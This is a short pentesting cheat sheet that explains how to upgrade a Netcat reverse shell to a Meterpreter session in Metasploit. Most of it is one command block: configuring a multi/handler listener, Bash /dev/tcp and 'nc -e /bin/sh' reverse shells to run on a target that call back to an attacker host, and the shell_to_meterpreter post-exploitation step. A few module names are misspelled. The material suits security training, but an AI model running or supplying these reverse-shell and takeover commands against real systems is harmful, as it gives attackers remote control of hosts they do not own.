 # Upgrading a Netcat Shell to Meterpreter

Netcat shells can be upgraded to meterpreter shells in three steps:

1. Start multi handler module to intercept the reverse shell using a Linux x86 payload
2. Issue the reverse shell on a Linux host with a Bash reverse shell
3. Use the post exploitation Metapsploit module shell_to_meterpreter to target the session with the reverse Bash shell

The starting point for the following is already having the ability to initiate a reverse Netcat shell.

```bash
# Start Metasploit and setup a multi handler
msfconsole
use exploit/multi/handler
set lhost [listening host IP]
set lport 4444
set payload linux/x86/shell_reverse_tcp
run

# Interacting with jobs running in the background
jobs					# Displays Jobs
jobs -K [id]  # Kill Job ID
jobs -h				# Help menu

# With a listener running, we can setup a reverse shell and connect back
# This is executed on the target - this is done via RCE or other vectors
bash -i >& /dev/tcp/[AttackboxIP]/4444 0>&1
# or
nc [ip attack box 4444] -e /bin/sh

# Send netcat shell to background first
CTRL+Z || background
# Upgrade shell to meterpreter
sessions -u [session id]							# Executes automatically
post/multi/manage/shell_to_mterpreter # Executes manually

# Automatically with sessions:
sessions -u 1
# View sessions
sessions
# Interact with a different session
sessions -i 2

# Manually
use post/multi/manage/shell_to_meterpreter
set session 1
run
# View sessions
session
# Select session 2
sessions -i 2
```

In order to run, the exploit requires write access to the current directory to write the payload. 
If you aren't running with root, it might be necessary to write to a world writable directory such as `/tmp`. 